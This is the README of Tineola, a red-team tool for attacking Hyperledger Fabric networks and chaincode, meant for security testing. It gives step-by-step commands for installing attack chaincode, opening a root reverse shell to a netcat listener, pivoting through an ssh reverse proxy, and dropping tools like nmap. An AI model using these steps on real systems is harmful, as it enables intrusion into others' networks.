 # Introducing Tineola

**Read the [Whitepaper](https://github.com/tineola/tineola/raw/master/docs/TineolaWhitepaper.pdf)**

![Tineola Logo](docs/tineola_logo.png)

Tineola is a red team tool for interfacing with **Hyperledger Fabric** deployments, networks, and chaincodes.
Tineola is designed to work in as many configurations as possible, and require only the bare minimum configuration to get started.
Tineola also ships with *tineolacc*, special chaincode for performing evil peer attacks.

This tool was originally released on Aug 12, 2018 at DefCon 26 by [Stark Riedesel](https://github.com/starkriedesel), [Parsia Hakimian](https://parsiya.net), Koen Buyens, and Travis Biehn.


# Installing Tineola
Tineola requires NodeJS 8.x or newer.
1. git clone https://github.com/tineola/tineola
2. cd tineola; npm install
3. cd bin; ./tineola.js

Tineola will load a `.tineola-rc` file from the current directory (if it exists) upon loading and execute any commands found within.

# Getting Started
Tineola is an interactive command-line application with commands split into modules. The following is a list of common actions and the associated Tineola commands. A complete list of commands can be obtained by using the `help` command. Command syntax can be displayed with the `-help` flag.

#### Authenticating to a CA server for the first time (aka Enrollment)

```
tineola> ca-set https://ca.example.com:7050

tineola> user-set admin

tineola> ca-enroll adminpw ExampleOrgMSP
```

After these commands, the admin user has been enrolled into Tineola's keystore. Subsequent use of Tineola with the same CA server and user will not need re-enrollment. Simply using the `user-set admin` is sufficient for loading local user keys.

#### Connecting to a peer and listing existing channels

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> peer-list-channels
```

#### Connecting to a channel and show last 20 blocks

```
tineola> user-set admin

tineola> per-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-history --last 20
```

#### Query/Invoke existing chaincode

Querying refers to calling a chaincode function and receiving a response, but without ordering the transaction. The result is a "Read-only" chaincode call.

Invoking refers to calling a chaincode function and ordering the response which allows it to be read & write.

Both actions use the `channel-query-cc` Tineola command with or without the `--invoke` flag.

Invocation requires an orderer to be set.

Note: invoking requires the endorsement policy to be met, whereas querying does not.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChan

tineola> channel-query-cc ccName ccFuncName

tineola> orderer-set grpcs://orderer1.example.com:7050

tineola> channel-query-cc --invoke ccName ccFuncName
```

#### Installing the Tineola chaincode

Most commands in the "tineola" module require the "tineolacc" chaincode to be installed to the peer.

Note that this action requires a **peer administrator** certificate to be accomplished and be acceptable to the channel endorsement policy.

```
tineola> user-set peerAdmin

tineola> channel-set testChan

tineola> tineola-install
```

#### Reverse shell from the Tineola chaincode

Start a tcp listener on the Tineola machine (`10.0.0.5` in this example)
```
nc -l 31337
```

Use Tineola to launch the chaincode
```
tineola> user-set admin

tineola> channel-set testChan

tineola> tineola-shell 10.0.0.5:31337
```

The tcp listener should be given a root shell within the chaincode container. This container is a bare Ubuntu image. Use `apt update` and `apt install ...` to download packages if the peer is internet connected. If the peer is not internet connected, the `tineola-http-drop` command can be used to drop useful binaries like nmap.

#### Creating a reverse proxy with the Tineola chaincode

It may be useful to pivot through the chaincode container to access hidden network services such as CouchDB containers or other peers.
The following assumes the Tineola machine is at `10.0.0.5`, has ssh installed and running.
The Tineola chaincode uses private key authentication to connect over ssh back to the Tineola machine.
An allowed ssh private key should be present at `~/tineola-ssh-key` for tineola to use.

Note: make sure to disallow this key after using Tineola.

Tineola makes no effort to encrypt or otherwise hide this key during or after use by the chaincode.
This key will likely be present on the chaincode container indefinitely.
Keys can be generated using `ssh-keygen` and installed to `~/.ssh/authorized` keys.
The username below "user" should be changed to match the username of the tineola machine.
The target should be in the form `IP:PORT` and is `10.10.0.100:1234` in the example below.

```
tineola> user-set admin

tineola> user-set channel-set testChan

tineola> peer-set grpcs://peer1.example.com:7051

tineola> tineola-ssh-proxy 10.10.0.100:1234 10.0.0.5 user ~/tineola-ssh-key
```

#### Using Tineola with Burp or another HTTP-base application proxy/scanner

It may be useful to connect Tineola to an application scanner or proxy for ease of use when testing chaincode.
Further, many Fabric deployments will use chain data in web applications upstream, making web application scanners great for detecting web vulnerability originating from chaincode.

```
tineola> user-set admin

tineola> peer-set grpcs://peer1.example.com:7051

tineola> channel-set testChans

tineola> orderer-set grpcs://orderer1.example:7050

tineola> tineola-http-proxy
```

Next, configure the HTTP scanner to use the port opened locally (default: `localhost:8888`).
The format of HTTP requests should be:

``` json
POST /ccName/funcName HTTP/1.1
HLF-Invoke: yes

["arguments","as", "json"]
```

The `HLF-Invoke` header controls whether or not to send the request for ordering.
If `HLF-Invoke` is set to "no" the query will be made read only but responses can still be collected from the chaincode.
The orderer is not needed to be configured if invoking is disabled.

## License
This software is released by Synopsys under the [MIT license](LICENSE).
